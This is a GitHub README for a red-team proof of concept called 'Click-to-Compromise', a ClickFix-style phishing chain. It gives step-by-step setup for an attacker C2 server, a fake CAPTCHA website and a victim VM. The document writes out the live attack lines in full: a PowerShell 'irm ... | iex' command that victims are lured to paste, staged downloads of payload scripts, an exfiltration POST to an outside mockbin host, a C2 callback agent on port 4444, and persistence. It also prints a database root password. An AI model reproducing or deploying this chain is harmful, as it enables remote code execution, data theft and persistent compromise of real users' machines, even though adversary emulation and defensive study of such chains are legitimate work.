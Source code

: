 # Materials for Click-to-Compromise technique

[This article]() is a deep dive into the **Click-to-Compromise** technique: a minimal-interaction, post-phishing attack chain that transitions from a single PowerShell command into full system compromise. It’s designed for red teamers, malware analysts, adversary emulation professionals, and curious defenders looking to understand modern evasion techniques beyond script kiddie noise.

## The attack chain

<div align="center"> 
  <img src="/resources/attack_chain.png" alt="" />
</div>

## The files

- **C2 folder:** contains the source code I have used within an IDE (IntelliJ IDEA) to run the C2.
- **website folder:** contains the web files ready to host in a server.
- **payloads folder:** contains the *.ps1* files.

## The setup

I tried to keep the setup as simple as possible for replication purposes: just 2 machines running Windows 11.

### Attacker

I was investigating on Windows 11 OS and the only tools needed are:
- Docker
- VirtualBox
- IDE to run the C2 and modify the code as needed
- Cloudflare Tunnel (setup is out if the scope of this doc)

> **REMEBER: Modify the payloads as needed in all files.**

On Cloudflare Zero Trust, create a tunnel (if you don't have one already) and create a public hostname pointing to your website server local IP. This will be your malicious website that we will need to add in the next step. 

Inside `index.html`:

```javascript
var maliciousCommand = 'powershell -ExecutionPolicy Bypass -NoProfile -Command irm \'<https://your.serverurl.com/payload.html>\' | iex';
```

Inside `payload.html`:

```
Invoke-WebRequest -Uri https://your.serverurl.com/payloads/cloudflare.verification.txt -OutFile $env:USERPROFILE\Desktop\cloudflare.verification.ps1; 
powershell -ExecutionPolicy Bypass -File $env:USERPROFILE\Desktop\cloudflare.verification.ps1
```

Inside `cloudflare.verification.txt`:

```
Invoke-WebRequest -Uri https://your.serverurl.com/payloads/infoexfil.ps1 -OutFile $env:USERPROFILE\Desktop\infoexfil.ps1

Invoke-WebRequest -Uri https://your.serverurl.com/payloads/agent.ps1 -OutFile "$env:USERPROFILE\Desktop\agent.ps1"

Invoke-WebRequest -Uri https://your.serverurl.com/payloads/persist.ps1 -OutFile "$env:USERPROFILE\Desktop\persist.ps1"
```

Inside `infoexfil.ps1`:

```powershell
Invoke-WebRequest -Uri "https://yourmockbin.api.mockbin.io/" -Method POST -Body $body -ContentType "application/json"
```

Inside `agent.ps1`:

```powershell
$C2 = "YOUR IP ADDRESS"
$Port = 4444
```

Inside `persist.ps1`:

```powershell
Invoke-WebRequest -Uri "https://your.serverurl.com/payloads/agent.ps1" -OutFile $payloadPath
```

#### Database

I have used **Docker Desktop**. Run a **MySQL** container with the following **environmental variables**:

```
MYSQL_ROOT_PASSWORD=w0DSQGYPsvARiBVTiwKKH3otYZ4rxKGu
MYSQL_DATABASE=c2server
```

Start the container.

#### C2

Open your preferred IDE and open the C2 files as a project. Then:

1. Run **TestDBConnection** class first to make sure your DB connection is fine and to create the **agents** table
2. Build the artifacts to deploy with **Tomcat**
3. Deploy to **Tomcat** and visit **/server/agents** endpoint

#### Website

I have used NGINX running on Docker. Start the container in your desired port (not 8080, I used a random 6984) and launch a terminal inside the website folder. To copy the files inside the container, run the following commands:

```
docker ps
```
This will list your running containers, identify your server conatiner name. Next, create the `payloads` directory in your server:

```
mkdir /usr/share/nginx/html/payloads
```

Then, launch a terminal inside your website folder and copy the files into your server Docker container with this commands:

```
docker cp index.html clickfix:/usr/share/nginx/html/
docker cp payloads.html clickfix:/usr/share/nginx/html/

docker cp turnstyle.css clickfix:/usr/share/nginx/html/
docker cp turnstile_gif.gif clickfix:/usr/share/nginx/html/
docker cp recaptcha.png clickfix:/usr/share/nginx/html/
```

Now, launch a terminal inside your payloads folder and copy the files into your server Docker container with this commands::

```
docker cp cloudflare.verification.ps1 clickfix:/usr/share/nginx/html/payloads/
docker cp infoexfil.ps1 clickfix:/usr/share/nginx/html/payloads/
docker cp persist.ps1 clickfix:/usr/share/nginx/html/payloads/
docker cp persist.ps1 clickfix:/usr/share/nginx/html/payloads/
``` 

### Victim

For the victim, I used a VirtualBox VM running **Windows 11 (24H2)** in bridged adapter mode. Then I just installed Chrome to access the website.

#### VM config

<div align="left"> 
  <img src="/resources/win_11_setup.png" width="500" alt="" />
</div>

## The attack

Once everything is running and tested, let's infect the victim machine. To do so, inside your victim VM just visit your malicious website and follow the prompt as an innocent victim would. If you did everything right, you should see how the files get downloaded in the Desktop and, after a minute or so, how the agent appears in your C2 agents panel at **/server/agents**.

This PoC video briefly shows how everything works including persistence after reboot.

https://github.com/user-attachments/assets/7a59ae1a-8eca-4d59-8513-4921c8803b61


